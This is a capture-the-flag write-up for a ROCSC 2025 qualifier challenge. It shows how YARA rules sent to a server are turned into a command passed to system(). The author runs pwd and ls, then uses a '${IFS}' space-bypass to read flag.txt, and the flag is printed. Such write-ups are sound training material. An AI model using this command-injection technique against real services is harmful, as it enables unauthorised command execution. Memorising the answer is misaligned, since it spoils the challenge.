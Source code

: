 <img src="https://github.com/raul-dunca/rocsc_2025_quals/blob/main/.assets/iarasi_description.png">

It seemed like the server takes your input, and it puts it in a `.yar` file and the matches are returned. What caught my attention while playing around with the server is that for the input (this rule should return all the files that contain the character *): 

```txt
rule ListFiles { strings: $txt = "*" condition: $txt }
```

I would see this error:

```txt
[YARA] Command to system(): *
sh: 1: flag.txt: not found
```
Hmm, interesting the command to system is * which is the character I used and after some more testing it seemed that the character used in the rule will be added to `command to system()` only if a match is happening (at least a file contains that character). After some more testing I found out that if the rule has exactly 1 letter it will also be appended to `command to system()` so I send the following 2 rules (separately):

```txt
rule ListFiles { strings: $txt = "p" condition: $txt }
rule w { strings: $txt = "d" condition: $txt }
```
And after quitting I saw:

```txt
[YARA] Command to system(): pwd
/home/ctf
```
Good, `pwd` got executed now I tried to run `ls`: 

```txt
rule ListFiles { strings: $txt = "l" condition: $txt }
rule test { strings: $txt = "s" condition: $txt }
```
Output:

```txt
[YARA] Command to system(): ls
flag.txt run.sh server.py testfile.txt
```

Nice, now I just need to `cat flag.txt`, but as I said before a match was needed for the character to be added to `command to system()` or for that character to be the name of the rule (and you can’t name a rule: “ “) and the `testfile.txt` from the server did not contain a space in it, so I had to find an alternative approach. I tried to run `cat${IFS}flag.txt` ($IFS is an environment variable which contains separators):

```txt
rule ListFiles { strings: $txt = "c" condition: $txt }
rule a { strings: $txt = "t" condition: $txt }
rule ff { strings: $txt = "$" condition: $txt }
rule aa { strings: $txt = "{" condition: $txt }
rule I { strings: $txt = "F" condition: $txt }
rule S { strings: $txt = "}" condition: $txt }
rule f { strings: $txt = "l" condition: $txt }
rule bb { strings: $txt = "a" condition: $txt }
rule g { strings: $txt = "." condition: $txt }
rule tt { strings: $txt = "t" condition: $txt }
rule x { strings: $txt = "t" condition: $txt }
```

Output:

```txt
[YARA] Command to system(): cat${IFS}flag.txt
ctf{bd07ea96ee394b654044c48dca65b994c205cc511c4b9f8a03bb471a8db9319e}
```

Important note: I used 2 letter rules to avoid rule names like “{“ which I don’t think would’ve worked.

`ctf{bd07ea96ee394b654044c48dca65b994c205cc511c4b9f8a03bb471a8db9319e}`
